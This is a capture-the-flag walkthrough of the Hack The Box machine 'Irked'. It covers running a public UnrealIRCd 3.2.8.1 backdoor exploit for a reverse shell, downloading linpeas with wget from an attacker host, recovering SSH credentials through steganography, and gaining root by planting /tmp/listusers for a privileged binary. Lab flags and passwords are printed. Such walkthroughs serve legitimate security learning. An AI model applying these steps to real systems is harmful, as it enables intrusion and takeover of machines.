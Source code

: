 # Irked

IP: `10.10.10.117`

## Enum

port 22: OpenSSH 6.7p1
port 80: says IRC is almost working
port 1111: rpcdbind

irc server: `irked.htb`

First, we add that to `/etc/host` file.

## Exploit

Connect to the irc server:

```sh
nc irked.htb 65534

PASS admin
NICK test
USER test 0 * :test test
```

and instantly the server tells us that it is running `Unreal3.2.8.1`

and a quick google search yields us with a [exploit](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py)

```sh
python3 exploit.py -payload python 10.10.10.117 8067
```

gives us back a reverse shell.

```sh
cd /tmp
wget 10.10.14.27/linpeas.sh
```

`3.16.0-6-686-pae (debian-kernel@lists.debian.org) (gcc version 4.9.2 (Debian 4.9.2-10+deb8u1) ) #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08)`

Nothing works here.

Going into the user profile, we see that there's something called `.backup` inside /home/djmardov/Documents.

Inside that file is called steg which stands for steganographic.

```sh
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

So now the pieces of the puzzle fall into place. Putting that image from port 80 into a steganographic decoder along with the password, we get the following test:

```sh
Kab6h+m+bbp2J:HG
```

SSHing as `djmardov` with the password above gives us a shell.

user.txt: `4a66a78b12dc0e661a59d3f5c0267a8e`

## Priv esc

Now running `ls -lah usr/bin/`, we see that a program called viewuser in which we are allowed to run as root. Running it with `/usr/bin/viewuser` says that the program `/tmp/listusers` is missing.

So we just execute root with `/tmp/listusers`

So we do a simple `echo "su root" > /tmp/listusers && chmod +x /tmp/listusers` to get a reverse shell

root.txt: `8d8e9e8be64654b6dccc3bff4522daf3`